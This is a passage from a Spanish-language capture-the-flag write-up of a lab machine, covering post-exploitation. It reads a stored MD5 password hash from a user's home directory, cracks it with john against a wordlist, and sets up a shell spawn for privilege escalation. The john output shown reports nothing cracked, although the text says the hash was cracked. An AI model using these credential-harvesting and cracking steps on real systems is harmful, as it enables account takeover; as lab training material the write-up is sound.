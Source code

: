 ##POST-EXPLOIT

Ahora que tenemos acceso a la máquina, con la utilidad `find` buscamos el archivo que puede contener las siguientes flags.

```bash
$ find / -name key-*-of-3.txt 2>/dev/null
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
```

Ahora vamos a mirar los ficheros y sus permisos en el directorio `/home/robot`, detectando que la segunda flag solo la puede leer el usuario `robot`, existe un segundo archivo al cual si tenemos permiso al menos de lectura.

```bash
$ ls -la /home/robot/
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Vamos a leer el contenido del archivo `password.raw.md5`.

```bash
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

¡Parece ser que tenemos un hash! Vamos a utilizar otro vector de ataque por fuerza bruta, esta vez con la utilidad `john`, pero antes de ello vamos a ingresar a la carpeta **exploit** y crear un fichero que contenga el hash identificado.

```bash
❯ cd ../exploit
❯ echo "robot:c3fcd3d76192e4007dfb496cca67e13b" > robot.hash
❯ john robot.hash --wordlist=../recon/fsocity.dic -format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2022-05-19 22:19) 0g/s 8580Kp/s 8580Kc/s 8580KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed
```

El hash fue descifrado y ahora ya tenemos lo que es la posible contraseña del usuario **robot**.

```bash
$ su robot
su: must be run from a terminal
```

Hay un problema, no podemos acceder por la utilidad `su`, sin embargo, verificando en la máquina, podemos ver que tiene `python 2.7.6` el cual nos va a permitir hacer el spawn de una shell en bash, luego de esto podremos ejecutar el comando para escalar privilegios con la contraseña previamente obtenida.
